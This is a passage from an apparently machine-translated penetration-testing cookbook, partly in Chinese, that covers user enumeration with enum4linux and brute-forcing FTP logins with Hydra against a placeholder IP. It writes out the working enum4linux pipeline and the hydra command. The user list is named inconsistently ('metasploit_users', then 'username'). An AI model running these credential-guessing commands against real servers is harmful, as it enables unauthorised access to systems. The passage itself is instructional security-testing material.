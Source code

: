     完成后，将用户名保存在任意名称的文件中。在本例中，我们将其命名为`metasploit_users`。这可以通过使用以下命令重定向前面命令的输出来完成：

    ```
    enum4linux <IP address> | grep "user:" |cut -d "[  " -f2 |           cut -d "]  " -f1 > metasploit_users

    ```

    有了这一点，我们完成了第一个收集信息的方法，以建立一个可信的凭证字典。在下一个配方中，我们将了解如何利用此攻击并尝试访问服务器。

# 使用自定义字表破解 FTP 登录

在此配方中，我们将学习如何攻击 FTP 以找到有效登录。我们将利用前面的信息收集方法中生成的列表。

## 准备好了吗

对于此配方，我们将使用名为 Hydra 的工具。它是一个支持多种攻击协议的并行登录破解程序。Kali Linux 中有很多破解密码的工具；然而，Hydra 非常方便。现在我们有了 Hydra 和用户名列表，让我们开始攻击。

## 怎么做。。。

1.  Knowing that our username list is called `username`, ensure that terminal points to the path where the username file is. We will run the following command in the terminal:

    ```
    hydra -e nsr -L username <IP address> ftp

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_014.jpg)

2.  Check to see if the credentials received are working:

    ![How to do it...](img/image_04_015.jpg)
